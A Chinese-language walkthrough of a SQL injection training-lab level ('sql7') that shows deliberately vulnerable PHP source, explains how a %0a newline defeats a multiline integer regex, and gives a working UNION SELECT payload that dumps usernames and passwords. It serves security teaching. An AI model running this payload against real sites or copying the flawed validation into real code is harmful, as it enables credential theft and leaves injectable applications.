



# sql7

进入example7.php

源码
```php
<?php

  require_once('../header.php');
  require_once('db.php');
        if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
                die("ERROR INTEGER REQUIRED");
        }
        $sql = "SELECT * FROM users where id=";
        $sql .= $_GET["id"];

        $result = mysql_query($sql);

        if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
    require '../footer.php';
?>
```
这里使用正则`/^-?[0-9]+$/m`来匹配开头和结尾是否是数字，并且`-`的存在使得传参只能是整数或者负整数
然后还使用了/m这个的意思是匹配多行，本来`^`和`$`匹配一行的开头和结尾，加了/m就匹配多行传的参，但是呢`^`和`$`只匹配第一行


所以呢可以使用url编码`%0a`的换行符进行绕过
payload
```sql
example7.php?id=-1%0a union select 1,(select group_concat("用户名：",name,"->","密码：",passwd separator 0x3c62723e) from users),3,4,5 
```

得到数据

| 请求方式 |                 过滤方式                  |                   注入方式                   |      闭合方式       |
| -------- | ---------------------------------------- | ------------------------------------------- | ------------------- |
| GET      | 匹配第一行开头和结尾是否是正整数或者是负整数 | 使用url编码的%0a进行换行，再联合查询，嵌套查询 | 数字型注入不需要闭合 |
过关！！